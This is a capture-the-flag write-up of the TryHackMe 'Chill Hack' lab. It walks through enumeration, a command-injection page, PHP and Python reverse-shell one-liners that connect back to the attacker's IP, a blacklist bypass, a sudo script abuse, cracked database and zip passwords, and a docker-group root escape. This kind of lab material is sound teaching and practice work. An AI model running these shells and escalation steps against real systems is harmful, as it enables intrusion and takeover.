# THM - Chill Hack

#### Ip: 10.10.204.78
#### Name: Chill Hack
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ sudo nmap -p-  --min-rate 10000 10.10.204.78        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 13:12 CDT
Nmap scan report for 10.10.204.78
Host is up (0.13s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.08 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ sudo nmap -sC -sV -T4 10.10.204.78 -p 21,22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 13:13 CDT
Nmap scan report for 10.10.204.78
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.61.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09f95db918d0b23a822d6e768cc20144 (RSA)
|   256 1bcf3a498b1b20b02c6aa551a88f1e62 (ECDSA)
|_  256 3005cc52c66f6504860f7241c8a439cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.55 seconds
```

Ok cool, looks like FTP has anonymous access enabled, and the is a file in there called note.txt. Let's check it out:

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ ftp 10.10.204.78                                                
Connected to 10.10.204.78.
220 (vsFTPd 3.0.3)
Name (10.10.204.78:ryan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||11477|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03  2020 .
drwxr-xr-x    2 0        115          4096 Oct 03  2020 ..
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||12504|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |********************************************************************************|    90      151.01 KiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (0.73 KiB/s)
ftp> bye
221 Goodbye.
```



Ok, not sure exactly what to do with this just yet, so lets keep enumerating. Also of interest here is we now have two possible usernames: Anurodh & Apaar.

Lets move on and check ot HTTP.

Navigating to the site we find a simple webpage:


Kicking off a feroxbuster scan against the target, we find a `/secret` directory. This is obviously worth checking out.



Ok interesting, looks like we have a way to execute commands here. Here, I entered the command `id` and got results back. We chould be able to exploit this to get a reverse shell back.



### Exploitation

Heading over to https://www.revshells.com/ I start experimenting with different types of reverse shell one-liners.

But I am having difficulty getting anything to work. Here I tried:

```text
php -r '$sock=fsockopen("10.6.61.45",443);exec("sh <&3 >&3 2>&3");'
```
and got back the following:



This must be what the note found on FTP was referring to when it talked about filtering certain strings. Lets keep trying other one-liners.

Cool, I was able to catch a reverse shell back with this python code:

```text
export RHOST="10.6.61.45";export RPORT=443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

And caught a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ nc -lvnp 443                 
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.204.78] 46058
$ whoami
whoami
www-data
$ hostname
hostname
ubuntu
```

I can then stabilize the shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Now that I'm on the box I can take a look at the index.php file which shows exectly how the site was filtering strings:

```text
www-data@ubuntu:/var/www/html/secret$ cat index.php 
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<?php
        if(isset($_POST['command']))
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
				{?>
					<h1 style="color:red;">Are you a hacker?</h1>
```

Hmm python3 (which we used for our reverse shell) should be blacklisted, but it wasn't. I'm wondering if thats because the 'python3' string in the exploit was immediately preceded by an ';' character. 

Either way, we're now on the box, lets see what needs to be done to move forward.

Trying to access the local.txt flag in Apaar's home directory we get an access denied. Appears as if we'll need to escalate privileges from the www-data user.

Running `sudo -l` I find:

```text
www-data@ubuntu:/home/apaar$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Interesting, this file contains a Bash script:

```text
www-data@ubuntu:/home/apaar$ cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

Cool, we should be able to get some execution here:



Nice, we are now user apaar and can grab the local.txt flag:



### Privilege Escalation

Browsing around the box a bit I found the file `/var/www/files/index.php` which had some hard coded mysql credentials.


Lets use these to access the database:

```text
apaar@ubuntu:/var/www/files$ mysql -u root -p'!@m+her00+@db'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

No entry for terminal type "unknown";
using dumb terminal settings.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

Nice! We've discovered more credentials.

We can crack these in https://crackstation.net/:



Unfortunately, I wasn't able to really do anything with these credentials.

Going back to `/var/www/files` I find a file called hacker.php which contained:

```text
<center>
	<br>
	<h1 style="background-color:red;">You have reached this far. </h2>
	<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
```

Interesting, going to the `Images` folder I find the image referenced above. 

I can transfer the image back to my machine for inspection by starting a python http server on the target and use wget from my local machine to copy the file.



Based on the note, it seems we may need to extract some hidden data in the image. Lets use steghide:

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg
Enter passphrase: 
wrote extracted data to "backup.zip".
```

Ah, tricky. I was prompted for a passphrase, but was simply able to hit enter and was able to extract backup.zip from the image. 

The zip file was also password protected, but simply hitting enter didn't work for us this time. We'll need to brute force this using JohntheRipper.



Cool, John was able to crack the password nearly instantly and we can use the credential to unzip and read the file:

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] source_code.php password: 
  inflating: source_code.php         
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ subl source_code.php 
```

Looks like we've discovered yet another credential. 



Lets see if we can decode this:

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" |  base64 -d
!d0ntKn0wmYp@ssw0rd
```

And back in our original shell we can successfully switch users:

```text
apaar@ubuntu:/var/www/files/images$ su anurodh
Password: 
anurodh@ubuntu:/var/www/files/images$ whoami
anurodh
```

Running `id` as this user we can see they are in the Docker group. This should make for an easy privesc to root:



Copying the command from GTFObins we can run:

```text
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
Which gives a root shell. From there all we need to do is grab the final flag:



And that's that. Thanks for following along!

-Ryan

----------------------------------------------------------
